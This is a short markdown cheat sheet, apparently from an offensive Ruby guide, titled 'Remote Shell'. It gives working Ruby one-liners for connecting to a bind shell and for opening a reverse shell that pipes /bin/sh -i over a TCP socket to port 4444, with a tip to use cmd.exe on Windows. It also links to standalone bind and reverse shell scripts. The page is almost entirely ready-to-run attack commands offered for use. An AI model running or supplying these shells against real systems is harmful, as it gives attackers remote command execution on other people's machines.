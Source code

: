 # Remote Shell

> **Note:** For windows systems, replace the "/bin/sh" to "cmd.exe"

## Connect to Bind shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.new("192.168.0.13",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end'
```

## Reverse shell
from terminal
```ruby
ruby -rsocket -e's=TCPSocket.open("0.0.0.0",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

## Bind and Reverse shell
This is an awesome implementation for standalone  [bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb) and [reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells scripts written by [Hood3dRob1n](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells) on GitHub . The bind shell requires authentication while reverse is not.

